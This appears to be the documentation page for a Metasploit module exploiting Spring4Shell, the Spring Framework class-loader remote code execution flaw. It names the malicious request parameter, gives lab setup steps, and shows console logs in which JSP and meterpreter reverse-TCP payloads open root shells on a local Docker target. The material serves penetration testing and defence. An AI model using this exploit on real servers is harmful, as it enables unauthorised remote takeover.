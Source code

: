 ## Vulnerable Application

Spring Framework versions 5.3.0 to 5.3.17, 5.2.0 to 5.2.19, and older versions when running on JDK 9 or above 
and specifically packaged as a traditional WAR and deployed in a standalone Tomcat instance are vulnerable 
to remote code execution due to an unsafe data binding used to populate an object from request parameters 
to set a Tomcat specific ClassLoader. By crafting a request to the application and referencing the 
org.apache.catalina.valves.AccessLogValve class through the classLoader with parameters such as the following:
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp, an unauthenticated attacker can 
gain remote code execution.

## Verification Steps

1. Build the application
   1. `git clone https://github.com/vleminator/Spring4Shell-POC`
   2. `docker build . -t spring4shell`
2. Run the application
   1. `docker run -p 8085:8080 spring4shell`
3. Start msfconsole
4. Run: `use exploit/multi/http/spring_framework_rce_spring4shell`
5. Set the `RHOSTS`, `TARGET`, `PAYLOAD` and payload associated datastore options
6. Run the exploit

## Options
```
msf6 exploit(multi/http/spring_framework_rce_spring4shell) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Java
   1   Linux
   2   Windows
```
## Scenarios
Spring Framework v5.3.15 on Linux (debian docker image)
### Target Java

```
msf6 exploit(multi/http/spring_framework_rce_spring4shell) > show options

Module options (exploit/multi/http/spring_framework_rce_spring4shell):

   Name             Current Setting       Required  Description
   ----             ---------------       --------  -----------
   FILEDROPPER_DIR  /tmp/                 no        Path to write the filedropper (only applicable to non-Java targets)
   PAYLOAD_PATH     webapps/ROOT          yes       Path to write the payload
   Proxies                                no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS           127.0.0.1             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT            8085                  yes       The target port (TCP)
   SSL              false                 no        Negotiate SSL/TLS for outgoing connections
   TARGETURI        /helloworld/greeting  yes       The path to the application action
   VHOST                                  no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.174    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Java


msf6 exploit(multi/http/spring_framework_rce_spring4shell) > exploit

[*] Started reverse TCP handler on 192.168.0.174:4444
[*] 127.0.0.1:8085 - Generating JSP...
[*] 127.0.0.1:8085 - Modifying Class Loader...
[*] 127.0.0.1:8085 - Waiting for the server to flush the logfile
[+] 127.0.0.1:8085 - Log file flushed at http://127.0.0.1:8085/lKNWl49.jsp
[!] Tried to delete lKNWl49.jsp, unknown result
[*] Command shell session 2 opened (192.168.0.174:4444 -> 192.168.0.174:56430 ) at 2022-04-07 14:45:06 +0200

whoami
root
```

### Target Linux (x86)
```
msf6 exploit(multi/http/spring_framework_rce_spring4shell) > show options

Module options (exploit/multi/http/spring_framework_rce_spring4shell):

   Name             Current Setting       Required  Description
   ----             ---------------       --------  -----------
   FILEDROPPER_DIR  /tmp/                 no        Path to write the filedropper (only applicable to non-Java targets)
   PAYLOAD_PATH     webapps/ROOT          yes       Path to write the payload
   Proxies                                no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS           127.0.0.1             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT            8085                  yes       The target port (TCP)
   SSL              false                 no        Negotiate SSL/TLS for outgoing connections
   TARGETURI        /helloworld/greeting  yes       The path to the application action
   VHOST                                  no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.174    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux


msf6 exploit(multi/http/spring_framework_rce_spring4shell) > exploit

[*] Started reverse TCP handler on 192.168.0.174:4444
[*] 127.0.0.1:8085 - Generating JSP...
[*] 127.0.0.1:8085 - Modifying Class Loader...
[*] 127.0.0.1:8085 - Waiting for the server to flush the logfile
[*] Sending stage (989032 bytes) to 192.168.0.174
[+] 127.0.0.1:8085 - Log file flushed at http://127.0.0.1:8085/M3zxL1.jsp
[+] Deleted /tmp/FMNk
[*] Meterpreter session 5 opened (192.168.0.174:4444 -> 192.168.0.174:59465 ) at 2022-04-08 11:00:08 +0200
[!] This exploit may require manual cleanup of 'M3zxL1.jsp' on the target

meterpreter > getuid
Server username: root
```